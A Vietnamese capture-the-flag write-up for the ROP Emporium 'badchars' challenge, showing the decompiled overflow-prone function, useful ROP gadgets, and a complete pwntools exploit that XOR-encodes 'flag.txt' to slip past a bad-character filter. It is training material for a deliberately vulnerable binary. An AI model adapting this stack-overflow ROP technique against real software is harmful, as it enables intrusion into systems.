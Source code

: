 # badchars - challenge 5

[binary file and my exploit code](https://github.com/Hjn4Pwn/Pwn/tree/main/ROP/chall5_badchars)

```python
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/ROP/chall5_badchars$ file badchars
badchars: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6c79e265b17cf6845beca7e17d6d8ac2ecb27556, not stripped
```

Bài này tương tự chall *write4* trước. Tuy nhiên có 1 một cái filter ở đây là: 

```c
int pwnme()
{
  unsigned __int64 v1; // [rsp+0h] [rbp-40h]
  unsigned __int64 i; // [rsp+8h] [rbp-38h]
  unsigned __int64 j; // [rsp+10h] [rbp-30h]
  char v4[32]; // [rsp+20h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  puts("badchars by ROP Emporium");
  puts("x86_64\n");
  memset(v4, 0, sizeof(v4));
  puts("badchars are: 'x', 'g', 'a', '.'");
  printf("> ");
  v1 = read(0, v4, 0x200uLL);
  for ( i = 0LL; i < v1; ++i )
  {
    for ( j = 0LL; j <= 3; ++j )
    {
      if ( v4[i] == badcharacters[j] )
        v4[i] = -21;
    }
  }
  return puts("Thank you!");
}
```

Việt ghi **flag.txt** vào địa chỉ chỉ định giờ đây đã không còn đơn giản như ta nghĩ.

Mà chall này cũng cho vài cái hint để ta hướng đến việc thay vì ghi trực tiếp thì ta dùng phép **xor** trước khi ghi, và lại **xor** sau khi ghi thành công vào rồi và ***HOW???*** đương nhiên câu trả lời là *ROP gadget* :))

Ta có các gadget hữu ích sau:

```python
0x0000000000400628 : xor byte ptr [r15], r14b ; ret
0x00000000004006a0 : pop r14 ; pop r15 ; ret

0x0000000000400634 : mov qword ptr [r13], r12 ; ret
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret

0x00000000004004ee : ret
```

Đầu tiên ta sẽ dùng **mov,pop r12,r13** để ghi chuỗi ta muốn vào địa chỉ chỉ định, chuỗi này là *flag.txt* đã được mang đi xor với *2* , địa chỉ chỉ định thì ta cũng tìm như chall **write4** 

Sau đấy thì ta sẽ pop sao cho r14 chứa *2* còn r15 sẽ chứa *địa chỉ chuỗi*, và tiến hành xor từng byte

### Exploit

```python
from pwn import *

r = process("./badchars")
#gdb.attach(r, api = True)

pop_r12_r13_r14_r15 = 0x000000000040069c
mov_r13add_r12 = 0x0000000000400634

pop_r14_r15 = 0x00000000004006a0
xor_r15add_r14 = 0x0000000000400628

ret = 0x00000000004004ee

address_flagtxt = 0x601040
pop_rdi = 0x00000000004006a3
print_file = 0x00400510

#bypass badchars
flag = (''.join(chr(ord(c) ^ 2) for c in "flag.txt")).encode('utf-8')

payload = b'A'*40 + p64(ret)

payload += p64(pop_r12_r13_r14_r15)
payload += flag + p64(address_flagtxt) + p64(1) + p64(1)
payload += p64(mov_r13add_r12)

for i in range(8):
    payload += p64(pop_r14_r15)
    payload += p64(2) + p64(address_flagtxt + i)
    payload += p64(xor_r15add_r14)

payload += p64(pop_rdi)
payload += p64(address_flagtxt)
payload += p64(print_file)


r.sendline(payload)
r.interactive()

```
